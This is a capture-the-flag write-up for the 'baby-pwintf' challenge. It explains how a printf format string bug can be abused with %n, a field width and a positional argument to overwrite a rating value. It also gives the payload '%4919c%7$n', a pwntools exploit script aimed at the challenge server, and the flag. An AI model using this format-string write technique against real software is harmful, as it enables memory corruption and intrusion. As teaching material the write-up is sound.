 # baby-pwintf

## Challenge

The program has some similarities to a previous challenge, "echowo".
It asks the user for their name, then repeats it using `printf`.

This challenge is different as the flag is no longer stored in memory during normal execution.
This means we can't use the same trick as last time by printing the flag from the stack.

After the server repeats our name, it rates it out of 10.
If we get a rating of 0x1337, the server will print the flag:

```c
printf("I rate your name %d / 10\n", *rating);

if (*rating == 0x1337) {
    puts("Nice name! here's a flag:");
    win();
}
```

However, this is not possible during normal execution,
as the rating generated is in the range [0, 11]:

```c
*rating = input[0] % 11;
```

If we could change the value stored at `rating` to 0x1337, the program would print the flag.

Let's look at a less common format specifier for `printf`:

```
n      The number of characters written so far is stored into the
       integer pointed to by the corresponding argument.  That
       argument shall be an int *, or variant whose size matches
       the (optionally) supplied integer length modifier.  No
       argument is converted.  (This specifier is not supported
       by the bionic C library.)  The behavior is undefined if
       the conversion specification includes any flags, a field
       width, or a precision.
```

Using `%n`, we can write the number of characters written so far at an address if we have a pointer.
Fortunately, `rating` is a pointer to the value we want to change and it is stored on the stack.
It can be accessed just like the char pointer in "echowo", except this time we will use `%n` to
overwrite the value at the address.

Unfortunately, we can't just write 0x1337 characters in front, because our input buffer is only 16
bytes long.
Again, we will consult the `printf` man page:

```
The overall syntax of a conversion specification is:

    %[$][flags][width][.precision][length modifier]conversion

...

Field width
    An optional decimal digit string (with nonzero first digit)
    specifying a minimum field width.
```

So if we wrote something like `%10c`, it would print the character specified by an argument,
padded to a minimum length of 10 characters.
For our exploit, instead of printing 0x1337 characters ourselves,
we can use `%4919c` which will expand to 0x1337 characters.

Using the same technique as in "echowo", we can find the offset to `rating`,
which in this case is also the 7th argument.
One leading element will be consumed by the padded character to give us the correct length.
The other elements, we can skip using `%c` and subtract the length by the number of characters skipped,
but this would make our payload exceed the limit of 15 characters.

Instead, we can access the 7th argument using the '$' style format specifier:

```
One can also specify explicitly which argument is taken,
at each place where an argument is required, by writing "%m$"
instead of '%' and "*m$" instead of '*', where the decimal
integer m denotes the position in the argument list of the
desired argument, indexed starting from 1.
```

The 7th element can be written to using `%7$n`.

Thus, our final payload looks like this: `%4919c%7$n`.

This will print 4919 characters, then write that same number into the address pointed at by the
7th argument.
This value is equal to 0x1337, which will cause the program to print the flag.

## Solution

This challenge contains the same format string vulnerability as "echowo".

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1445 baby-pwintf
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('baby-pwintf')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1445)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.sendlineafter(b"Tell me your name and I'll rate it!", "%{}c%7$n".format(0x1337).encode())

io.interactive()
```

## Flag

```
maple{youwe_weady_fow_the_big_boy_chawwenge}
```
